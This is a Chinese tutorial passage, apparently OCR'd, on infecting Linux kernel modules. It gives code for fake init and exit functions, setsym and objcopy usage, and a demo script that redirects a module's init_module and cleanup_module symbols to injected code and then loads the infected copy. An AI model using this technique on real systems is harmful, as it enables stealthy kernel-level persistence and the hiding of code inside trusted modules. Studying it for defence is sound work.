 ```
fake_init(void)
{
    noinj_init();

    fm_alert("==> NOINJ: %s\n", "GR33TINGS THE W0RLD!");

    return 0;
}

int
fake_exit(void)
{
    noinj_exit();

    fm_alert("==> NOINJ: %s\n", "FAR3W311 THE W0RLD!");

    return 0;
}
```

使用setsym进行修改符号值

```
// 第一种用法，获取符号的值。
setsym <module_path> <symbol_name>
 
// 第二种用法，设置符号的值。
setsym <module_path> <symbol_name> <symbol_value>
```

- 怎么实现模块间感染 

   `.ko`文件是可重定位文件，这意味着我们可以通过`ld`链接它们，有的模块的出入函数前面都加了`static`，即符号只在本目标文件内可见，需要注意。

  使用objcopy工具修改

```
objcopy：将目标文件的一部分或者全部内容拷贝到另外一个目标文件中，或者实现目标文件的格式转换。

--globalize-symbol=symbolname 
    让变量symbolname变成全局范围，这样它可以在定义它的文件外部可见。可以多次指定。
```

​	演示脚本

```
// 构建模块。
$ make
// 复制一份副本用于对照演示。
$ cp noinj.ko infected.ko
// 将副本的 init_module 符号值改成 fake_init 符号值。
$ setsym infected.ko init_module $(setsym infected.ko fake_init)
// 将副本的 cleanup_module 符号值改成 fake_exit 符号值。
$ setsym infected.ko cleanup_module $(setsym infected.ko fake_exit)
// 加载原始的模块。
$ insmod noinj.ko
// 卸载载原始的模块。
$ rmmod noinj
// 加载修改过的副本。
$ insmod infected.ko
// 卸载修改过的副本。
$ rmmod noinj // 注意模块名要用宿主的，即 noinj
```
